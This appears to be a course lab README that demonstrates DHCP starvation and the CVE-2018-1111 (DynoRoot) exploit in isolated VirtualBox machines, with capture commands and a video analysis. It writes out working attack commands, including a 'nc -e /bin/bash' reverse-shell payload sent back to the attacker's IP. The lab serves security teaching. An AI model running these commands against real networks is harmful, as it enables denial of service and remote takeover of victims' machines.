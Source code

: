 Record DHCP traffic using `tcpdump`:
```bash
sudo ip link set enp0s8 promisc on
sudo tcpdump -i enp0s8 -w attack.pcap 'arp or icmp or port 67 or port 68'
```

Alternatively, VirtualBox can also record traffic:
```bash
VBoxManage modifyvm "attacker" --nictrace2 on --nictracefile2 capture.pcap
VBoxManage modifyvm "attacker" --nictrace2 off
```

Launch DHCP starvation (run as `root`):
```
sudo su && cd && conda activate dynoroot
python FEP3370-advanced-ethical-hacking/starver.py \
  --interface  enp0s8 \
  --pool-start 192.168.0.100 \
  --pool-end   192.168.0.105
```

Use netcat to listen for connections from the victim:
```
nc -v -l -p 1337
```

Launch attack (run as `root`):
```bash
sudo su && cd && conda activate dynoroot
MY_IP=$(ip -f inet addr show enp0s8 | awk '/inet / {print $2}' | cut -d'/' -f1)
MY_MAC=$(ip link show enp0s8 | awk '/link\/ether / {print $2}' | cut -d'/' -f1)
python CVE-2018-1111/main.py \
  -i enp0s8 \
  -s 192.168.0.0/24 \
  -g 192.168.0.1 \
  -d 'victim.net' \
  -m "${MY_MAC}" \
  -p "nc -e /bin/bash ${MY_IP} 1337"
```

### Victim
Clean up old DHCP leases and reconnect:
```
sudo nmcli connection down enp0s8
sudo find /var/lib/NetworkManager -name 'dhclient-*-enp0s8.lease' -delete

sudo nmcli connection up enp0s8
nmcli
```

### Analysis

#### Video capture
The following [video](./media/dynoroot.mp4) demonstrates the execution of the attack following the
steps above. In the video, it is possible to observe:
1. The 4-way DHCP exchange betweent the `gateway` and the `attacker`
2. The DHCP starvation attack, both in the console of the attacker 
   and in the logs of the DHCP server (note the `NACK` due to the existing lease of the attacker)
3. The "no free leases" message from the `gateway` when the `victim` broadcasts a DHCP `DISCOVER`
4. The crafted DHCP messages of the rogue DHCP server offering `192.168.0.2`
5. The confirmation that netcat has received the reverse shell connection from `192.168.0.2`
6. The fake DNS options received by the `victim`, 
   i.e. DNS address `192.168.0.1` and domain `victim.net`
7. The successful remote code execution of simple commands on the victim machine
8. The DHCP `RELEASE` sent at the end of the attack
